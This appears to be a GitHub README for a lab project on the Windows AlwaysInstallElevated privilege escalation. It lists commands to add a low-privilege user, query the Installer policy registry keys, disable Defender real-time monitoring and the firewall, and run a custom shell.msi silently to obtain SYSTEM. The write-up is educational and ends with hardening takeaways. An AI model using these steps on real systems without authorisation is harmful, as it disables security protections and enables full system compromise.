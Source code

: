 \# AlwaysInstallElevated Privilege Escalation

\*\*Author:\*\* Chontele Coleman    
\*\*Date:\*\* June 16, 2025  

\---

\#\# 📖 Overview

In this project, I demonstrated the exploitation of the \*\*AlwaysInstallElevated\*\* vulnerability on Windows 10\. The objective was to escalate privileges from a low-privilege user account to \*\*SYSTEM\*\*, simulating a real-world misconfiguration that can be abused for full system compromise.

\---

\#\# 🖥️ Environment Setup

\- \*\*Host OS:\*\* Windows 10    
\- \*\*Virtualization:\*\* VirtualBox    
\- \*\*Guest OS:\*\* Windows 10 (Target)    
\- \*\*Shared Folder:\*\* \`Z:\\\` (used for payload transfer)  

\---

\#\# 🔧 Processes Implemented

\#\#\# ✅ Created a Low Privilege User

\`\`\`cmd  
net user lowpriv P@ssword123 /add  
net localgroup Users lowpriv /add  
🔍 Confirmed AlwaysInstallElevated Registry Keys  
cmd  
reg query HKLM\\Software\\Policies\\Microsoft\\Windows\\Installer  
reg query HKCU\\Software\\Policies\\Microsoft\\Windows\\Installer  
📁 Transferred Payload to Target  
Payload: shell.msi

Transfer method: Shared folder mounted as Z:\\

🔐 Temporarily Disabled Windows Defender & Firewall (Admin)  
powershell  
Copy

Set-MpPreference \-DisableRealtimeMonitoring $true  
Add-MpPreference \-ExclusionPath "Z:\\"  
Set-NetFirewallProfile \-Profile Domain,Public,Private \-Enabled False  
🚀 Executed Payload as Low-Privileged User  
cmd  
Copy  
Edit  
msiexec /quiet /qn /i Z:\\shell.msi  
✅ Privilege Escalation Verified  
Successful escalation was confirmed via a SYSTEM-level command prompt pop-up.

🧠 Conclusion  
This project successfully demonstrated how a common misconfiguration involving AlwaysInstallElevated can lead to full SYSTEM access from a standard user account. It highlights the critical need for proper Group Policy configuration and system hardening.

📝 Key Takeaways  
Misconfigured AlwaysInstallElevated registry keys pose critical security risks.

Even low-privilege users can compromise a system if configurations are weak.

Proper auditing and Group Policy enforcement are essential to mitigate such risks.

🛠️ Tools Used  
Windows Command Prompt

PowerShell

Kali Linux

msiexec

Custom shell.msi payload (for demonstration purposes)

⚠️ Security Note:  
All activities were performed in an isolated lab environment strictly for educational and ethical purposes. Never test or execute these techniques on unauthorized systems.

css


